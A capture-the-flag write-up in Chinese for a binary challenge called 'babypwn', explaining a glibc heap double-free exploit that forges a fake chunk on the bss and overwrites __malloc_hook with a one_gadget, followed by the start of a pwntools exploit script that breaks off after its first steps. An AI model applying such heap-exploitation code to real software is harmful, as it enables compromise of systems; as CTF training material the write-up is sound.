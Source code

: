 ## babypwn

### 漏洞利用

Throw的时候double free，由于程序只能add十次，需要用完清空，bss上有stdout,stdin,stderr，以stdin的'\x7f'为fake size构造fake chunk，部分写stderr(部分写stdout清空bss的时候会使得输出紊乱)。最后构造free链，分配到bss上stderr部分时第二次清空bss最终one_gadget覆写malloc_hook即可。(注意一旦free链形成之后我们可以清空其fd)

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./babypwn')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./babypwn')

def Add(name,des_size,des,flag=1):
    if flag == 1:
        p.recvuntil('choice:')
    else:
        p.recvuntil('3.Exit\n')
    p.sendline('1')
    p.recvuntil("Member name:")
    p.send(name)
    p.recvuntil("Description size:")
    p.sendline(str(des_size))
    p.recvuntil("Description:")
    p.send(des)

def Add1(name,des_size,des):
    p.recvuntil('3.Exit\n\n======================')
    p.sendline('1')
    time.sleep(0.05)
    p.send(name)
    time.sleep(0.05)
    p.sendline(str(des_size))
    time.sleep(0.05)
    p.send(des)

def Throw(index,flag=1):
    if flag:
        p.recvuntil('choice:')
    else:
        p.recvuntil('3.Exit\n\n======================')
    p.sendline('2')
    if flag:
        p.recvuntil("index:")
    else:
        time.sleep(0.05)
    p.sendline(str(index))

def exp():
    #leak libc
    Add('0',0x68,'0')#0
    Add('1',0x68,'1')#1
    Throw(0)
```